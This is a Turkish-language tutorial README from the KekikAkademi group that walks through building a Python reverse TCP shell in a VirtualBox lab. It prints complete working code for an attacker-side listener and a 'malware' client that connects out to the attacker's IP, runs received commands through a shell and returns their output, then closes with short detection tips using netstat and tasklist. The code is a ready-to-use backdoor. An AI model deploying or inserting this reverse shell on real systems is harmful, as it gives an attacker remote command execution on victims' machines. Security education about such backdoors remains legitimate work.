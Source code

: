 🕊 Bu döküman [**@KekikAkademi**](https://t.me/KekikAkademi "Telegram: @KekikAkademi") için oluşturulmuştur. ✌🏼
________________________________
# Python Reverse TCP Shell (Socket)
![Python Reverse TCP Shell (Socket)](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/1-python-socket-programming.png)

**Python**  ile  **Reverse TCP Shell**  yönteminden ve bir malware’in sisteme bulaştığı zaman saldırgana nasıl backdoor (arka kapı) açtığından bahsedip, kod bloğumuz içinde yer alacak satırlarları açıklayacağız. Yazımızın sonunda ise farkındalık oluşturmak adına birkaç linux ve windows komutundan bahsedeceğim.

Günümüzde gerek network katmanında gerekse host veya server katmanında dışarıdan gelebilecek bağlantılar için firewall’larda port kısıtlamaları son derece önem gösterilerek yapılmaktadır. Server üzerinde istenilmeyen servislerin aktif edilmeyerek socket açmaması, son kullanıcı bilgisayarlarına dışarıdan gelen tüm bağlantıların kapatılması, alınan önlemlerden bir kısmı diyebiliriz. Bunca güvenlik önlemi alınırken saldırganlarda boş durmadı ve “ biz sisteme sızamıyorsak onlar bizim ayağımıza gelsin” yöntemini geliştirdiler. Peki bu nasıl oluyor ? Bunun birçok yöntemi var, server sistemlerde kullanılan uygulamanın zaafiyeti olmasından kaynaklanan bir açıktan tutun bir malware’in sisteme bulaşmasına ve bu zararlı yazılımın saldırgana backdoor ile bağlanmasını sağlamaya kadar gidiyor. Buradaki kilit kelime “ **socket** ”.

![Saldirgan Bekleyis](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/2-Socket.png)
*VE HACKER, SOCKET AÇARAK BEKLEYİŞE GEÇER…*

## **Nedir bu Socket?**

Network üzerinde çalışmasını istediğiniz bir uygulama veya servis olduğu zaman ethernet kartınızın ip adresi ile uygulamanın çalışması için verilen port bilgisi birleşir (socket) ve bu ikili uygulamanıza gelecek istekleri karşılamak için dışarıya bağlantı açar. İnternet üzerinden bağlandığınız web sitelerini buna örnek gösterebiliriz. Browser’ınıza bir site adresi yazdığınızda “**python4hackers.com:80**” diye çalışır. Siz her ne kadar “80” portunu görmesenizde (80 haricinde görürsünüz) python4hackers server’larına bu istek, “**ip:port**” isteği olarak gider ve python4hackers server üzerinde çalışan IIS veya Apache socket’in karşılığı olan uygulamayı kullanıcıya döndürür (Server tarafında bu socket açıksa).

	import socket #Socket oluşturmak için kullandığımız modül

	port=7790 #Saldırganın dinleyeceği port adresi
	ip="192.168.0.32" #Saldırgan'ın dış dünya ile bağlantısını sağlayan IP adresi
	
	def baglanti():
	    Socket = socket.socket(socket.AF_INET,socket.SOCK_STREAM) 
	    Socket.bind((ip,port))
	    Socket.listen(1)

	    socketaddr,ipaddr= Socket.accept()
	    print('Baglanti gerceklesti',ipaddr)

	    while True:
	        komut= input("Shell> ")
	        if 'cikis' in komut:
	            socketaddr.send('cikis')
	            socketaddr.close()
	            break
	        else:
	            socketaddr.send(komut)
	            print(socketaddr.recv(1024))
	baglanti()

Görüldüğü üzere server-client mimarisi bir uygulama yazıyorsanız, python’da socket kütüphanesini kullanıyorsunuz. Oluşturduğumuz fonksiyonu açıklarsak;

`Socket=socket.socket()` ile yeni bir **socket** oluşturduk.

`socket.AF_INET` ile çağırarak **IPv4** model bir socket olacağın belirttik.

`socket.SOCK_STREAM` ile **TCP** temelli bir haberleşme olacağını belirttik (SOCK_DGRAM udp için).

`Socket.bind((ip,port))` hatırlarsanız socket tanımını yaparken hep **ip:port** ikilisi diye bahsetmiştik. İşte burada da oluşturduğumuz Socket’e ip:port bilgisini atadık ve çalıştığı makinada (saldırgan makina) interface’in IP ve hangi port adresini dinleyeceğini söyledik. *"0.0.0.0"* yaparsanız üzerindeki tüm ip almış interface’leri dinler.

`Socket.listen(1)` aynı anda **kaç bağlantıyı dinleyeceğini** belirttik.

`socketaddr,ipaddrr=Socket.accept()`  oluşturduğumuz **socket’e gelecek bağlantıları kabul etmek için** accept()’i çağırdık ve client tarafından açtığımız socket’e bağlantı geldiği zaman *size iki liste elemanı döndürür*, karşı tarafla oluşan socket objesini ve bağlanan makinanın ipadresi:port bilgisi.

`while` döngüsünde, bağlantı oluştuğu zaman, raw_input() ile **saldırgandan komut girmesini bekliyoruz.** Girilen bu komutda “cikis” adli bir kelime geçiyorsa socket’i kapatmasını `socketaddr.close()` yani bağlantıyı sonlandırmasını, geçmiyorsa da girilen komutu, oluşan bağlantı socket’inde `socketaddr.send(komut)`  yardımı ile karşı tarafa göndermesini (malware yüklü makina).

`print socketaddr.recv(1024)` *TCP bir bağlantı olduğu için* gönderdiğimiz **komuta karşılık gelen paketi’in 1 Mb’lık değerini** ekrana yazıyoruz.

`baglanti()` komutu ile de fonksiyonumuzu çağırıyoruz yani çalıştırıyoruz.
##
Gelelim şimdi malware yüklü veya client tarafına.

	import socket
	import subprocess

	port=7790
	ip="192.168.0.32"
	def baglanti():
	    Socket=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	    Socket.connect((ip,port))

	    while True:
	        komut = Socket.recv(1024)

	        if 'cikis' in komut:
	            Socket.close()
	            break
	        else:
	            CMD=subprocess.Popen(komut, shell=True, stdout=subprocess.PIPE,stderr=subprocess.PIPE)
	            Socket.send(CMD.stdout.read())
	            Socket.send(CMD.stderr.read())

	baglanti()​

Bir önceki komut dizinimizde detaylı olarak Python’da socket oluşturmayı gösterdiğim için burada fazla detaya girmiyorum.

`subprocess` modülü **alt işlemler oluşturmanıza** (bir işlem çalışıyorken aynı anda başka bir işlemi alt işlem olarak çalıştırmanıza) ve bu işlemin sonucunda dönen girdi/çıktı/hata değerlerini yöneterek *PIPE ile bağlamanızı* **sağlar**.

`Socket.connect((ip,port))` ile saldırgan makinamıza **bağlanma talebi yolladık.**

`komut=Socket.recv(1024)` bir önceki komut dizinimizde **saldırganın raw_input ile gönderdiği komutu,** *komut adlı değişkenimize atıyoruz* ve komut içinde cikis yazıyorsa(saldırgan bu komutu yollamıssa) socket’i sonlandırıyoruz (sürekli açık kalıp, bir sonraki aşamada socket kullanılıyor demesin diye).

`CMD.subprocess.Popen(komut, shell= True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)` kullanmamızın nedeni bir üst işlem ile aynı anda çalışacağını belirttik ve (komut) adlı değişkenimizi argüman olarak çağarıp, shell=True diyerek shell’i çağardık ve argümanımızı buraya yazdık. Normalde shell değerini injection ataklara karşı false yapmamızı önerirler ama bizim işimiz zaten bu ..

bir alt satırda yazan `socket.send(CMD.stdout.read())` ve `socket.send(CMD.stderr.read())` subprocess işleminde dönen çıktıyı ve hatayı okuyarak socket’e yani saldırgana yolluyoruz. Böylece saldırgan raw_input ile bir komut yolladığında, malware yüklü client makinamız bu komutu alıyor, subprocess ile shell’e yazıyor, dönen cevabı saldırgana açılan socket üzerinden yolluyor.

Evet Gelelim bir ekran görüntüsü ile bu yazdığımızı açıklamaya. Benim test ortamımda (VirtualBox) Windows 7 (Malware yüklü client), bir de Kali Linux yüklü saldırgan dediğim makinam var.

![Windows & Kali Machine](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/3-python-socket-programming.png)
Şimdi tek yapmamız gereken saldırgan makinada SocketServer.py scriptimizi çalıştıralım ve client tarafından malware’in çalışıtırıldığı zamanki durumu görelim.

![Attacker-Victim](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/4-python-socket-programming.png)
Gördüğünüz gibi kurban makinamız malware’i çalıştırdı ve saldırgan makina reverse TCP shell alarak, windows üzerinde bulunduğu dizinde neler olduğunu görmen için “dir” komutunu çalıştırdı. İşlemlerini bitirdikten sonrada “cikis” komutu ile socket’i kapattı. Tabi bu yaptığım örnek sadece  _reverse TCP shell nedir?_  sorusuna cevap niteliğinde basit client-server uygulamasıydı. Günümüzde birçok malware analiz edildiği zaman “7777” portunu kullandığınıda dip not olarak eklemek isterim. Gelir bir de analiz aşamasında client makinada neler oluyor çok ufak ona bakalım.

`netstat -naob` (yönetici yetkisi ile) komutunu çalıştırarak TCP veya UDP üzerinden bağlantı kurmuş makinaları görebilirsiniz. “o” parametresi size işlem id’yi, “b” parametresi ile o işlem id’ye karşılık gelen uygulama adını gösterir.

![python-socket-programming4](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/5-python-socket-programming.png)
Gördüğünüz gibi client makinamız saldırgan ip adresine “6161 ” bağlantı kurmuş. Tabi bu sizin için anormal bir trafik olduğunu düşündürüp, birde bu uygulamanın hangi serisleri çalıştırdığına bakmanız ihtiyacını doğuruyor.

`tasklist /svc` ilede çalışan uygulamalara atanan servislerin listesini gösterir.

![python-socket-programming5](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/9-Py4H-Reverse-TCP-Shell-Socket/images/6-python-socket-programming.png)
Malware kendini hiçbir servise bind etmemiş, tabi bizimki masum bir malware olduğu için bu böyle. Normalde siz bu işlem id’sini gördüğünüzde o işlemi sonlandıracağını tahmin ettiği için kendini başka bir servise bind eder ve daha detaylı bir analiz yapmanızı gerektirir.

**Not: Bu işlem için saldırgan makinanız ile client aynı network’de değilse, saldırgan uygulamanız için modem veya firewall’dan NAT tanımlaması yapmanız gerekir.**

Evet arkadaşlar basit anlamda bu yazımızda Reverse TCP shell’i anlatmaya çalıştık, umarım amaca hizmet edebilmişizdir. Bir sonraki yazımızda görüşmek üzere.
________________________________
📃 **Yandex.Disk Bünyemizde 900GB veri olmuştur.**

_Paylaşılan Kursların Tümünü_ [**@KekikKahve**](https://t.me/KekikKahve) _Grubu notlarından Çağırabilirsiniz.._

🕊️ Bize **oy verip** _paylaşarak_ destek olmaya ne dersin? ✌🏼
#
> Bu readme sayfası oluşturulurken [prose.io](http://prose.io/ "prose.io") ve [stackedit.io](https://stackedit.io/app "stackedit.io") araçlarından yardım alınmıştır..
> Emojiler için [webfx](https://www.webfx.com/tools/emoji-cheat-sheet/ "Emoji Cheat Sheet") sayfası kullanılmıştır.